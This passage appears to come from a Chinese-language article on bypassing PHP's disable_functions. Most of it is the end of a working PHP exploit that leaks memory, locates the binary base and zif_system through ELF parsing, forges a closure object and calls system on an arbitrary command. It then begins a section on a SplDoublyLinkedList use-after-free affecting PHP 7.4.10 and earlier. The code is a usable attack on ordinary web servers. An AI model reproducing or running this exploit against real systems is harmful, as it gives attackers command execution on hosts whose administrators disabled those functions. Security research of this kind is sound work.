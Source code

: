 ```php
    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }

    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler

    ($helper->b)($cmd);
    exit();
}
```

# 0x10 利用 SplDoublyLinkedList UAC

## 使用条件

- PHP v7.4.10及其之前版本
- PHP v8.0(Alpha)

## 原理简述

 2020年9月20号有人在 bugs.php.net 上发布了一个新的 UAF BUG，报告人已经写出了 bypass disabled functions 的利用脚本并且私发了给官方，不过官方似乎还没有修复，原因不明。
